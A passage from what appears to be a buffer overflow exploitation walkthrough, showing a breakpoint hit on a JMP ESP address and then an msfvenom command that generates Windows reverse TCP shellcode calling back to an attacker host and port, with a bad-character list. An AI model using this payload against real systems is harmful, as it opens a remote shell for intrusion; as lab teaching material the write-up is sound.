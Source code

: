 - Run the script

![image]( /assets/img/school/26.PNG)

We triggered the breakpoint. Therefore, the EIP call successfully the address of the Instruction JMP ESP.

#### Creating the reverse shell

In our kali, generate the shellcode


{% highlight sh %}
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.106 LPORT=4444 -f python -a x86 -b '\x00\x4d\x4f\x5f\x79\x7e\x7f'
{% endhighlight %}


- The null byte char \x00 by default is a bad char so we add it to our badchars list (-b)

![image]( /assets/img/school/27.PNG)
